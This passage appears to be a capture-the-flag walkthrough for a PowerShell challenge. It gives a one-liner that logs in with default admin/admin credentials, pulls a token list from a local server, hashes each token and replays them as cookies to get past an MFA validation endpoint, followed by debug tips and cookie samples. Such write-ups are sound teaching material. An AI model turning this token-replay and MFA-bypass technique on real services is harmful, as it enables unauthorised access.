$User = "admin"; $Pass = ConvertTo-SecureString "admin" -AsPlainText -Force; $Creds = New-Object System.Management.Automation.PSCredential ($User, $Pass); $r = Invoke-WebRequest -Uri "http://127.0.0.1:1225/token_overview.csv" -Method Get -Credential $Creds -AllowUnencryptedAuthentication; $r.Content | Set-Content hashes.txt; Get-Content hashes.txt | Where { $_ -notmatch "^#" } | Set-Content hashes_only.txt; Remove-Item hashes.txt; Rename-Item hashes_only.txt hashes.txt; $inputFile = "hashes.txt"; $outputFile = "hashed_output.txt"; $results = @(); $row = 0; Get-Content -Path $inputFile | ForEach-Object { if ($row -eq 0) { $row++; return }; $columns = $_ -split ","; $md5Hash = $columns[0].Trim(); $tempFilePath = "md5hash.txt"; $md5Hash | Out-File -FilePath $tempFilePath -Encoding UTF8 -Force; $sha256HashBytes = Get-FileHash -Path $tempFilePath -Algorithm SHA256; $sha256Hash = $sha256HashBytes.Hash.ToLower(); $results += "$md5Hash,$sha256Hash" }; $results | Out-File -FilePath $outputFile -Encoding UTF8; Write-Output "Hashes processed and saved to $outputFile"; Get-Content $outputFile | Where { $_ -notmatch "^," } | Set-Content endpoint_hashes.txt; $inputFile = "endpoint_hashes.txt"; $cookieValue = ""; Get-Content -Path $inputFile | ForEach-Object { $columns = $_ -split ","; $md5Hash = $columns[0].Trim(); $sha256Hash = $columns[1].Trim(); $WebSession = New-Object Microsoft.PowerShell.Commands.WebRequestSession; $WebSession.Cookies.Add((New-Object System.Net.Cookie("token", $md5Hash, "/", "127.0.0.1"))); $WebSession.Cookies.Add((New-Object System.Net.Cookie("attempts", $cookieValue, "/", "127.0.0.1"))); $response = Invoke-WebRequest -Uri "http://127.0.0.1:1225/tokens/$sha256Hash" -Method Get -Credential $Creds -AllowUnencryptedAuthentication -WebSession $WebSession; $mfaHref = ($response.Links | Where-Object { $_.outerHTML -like "*mfa_validate*" }).href; $WebSession.Cookies.Add((New-Object System.Net.Cookie("mfa_token", $mfaHref, "/", "127.0.0.1"))); $finalResponse = Invoke-WebRequest -Uri "http://127.0.0.1:1225/mfa_validate/$sha256Hash" -Method Get -Credential $Creds -AllowUnencryptedAuthentication -WebSession $WebSession; $cookieValue = $WebSession.Cookies.GetCookies("http://127.0.0.1:1225") | Where-Object { $_.Name -eq "attempts" } | Select-Object -First 1 -ExpandProperty Value }
```


## Uncomment Code
- If you uncomment the code sections in the PowerShell script, you can get some debug output that will create some extra files for you to see the content, along with more verbose output similar to the the one demonstrated below. 

- Additionally you can run additional commands on those files that it creates (From the hashes) to better understand the requests
```powershell
$inputFile = "endpoint_hashes.txt"
Get-Content -Path $inputFile | ForEach-Object {
    # Split the line into MD5 and SHA256 columns
    $columns = $_ -split ","
    $md5Hash = $columns[0].Trim()

	Get-Content "$md5Hash.txt" | Write-Output
}
```

>[!TIP] By looking at the contents we can see what cookie values are being set for each of them since the script outputs the cookies at the end
>```powershell 
> PS /home/user> Get-Content ./67c7aef0d5d3e97ad2488babd2f4c749.txt
> <h1>[*] Setting cookie attempts</h1>
> Name: attempts, Value: c25ha2VvaWwK01, Domain: 127.0.0.1, Path: /
> Name: token, Value: 67c7aef0d5d3e97ad2488babd2f4c749, Domain: 127.0.0.1, Path: /
> Name: mfa_token, Value: 1732189919.0226214, Domain: 127.0.0.1, Path: /
>```
## I Hate Windows
Ok! I don't disagree, but there are a few tricks you can use on this challenge to set yourself up for a more Linux Like environment. I will note that this will still be PowerShell, as ultimately this will only setup aliases 
```powershell
Set-Alias ls dir
Set-Alias cat Get-Content
Set-Alias print Write-Output
```
## Easter Eggs
`c25ha2VvaWwK01` through `c25ha2VvaWwK10` for the `attempts` cookie all resolve to `snakeoil`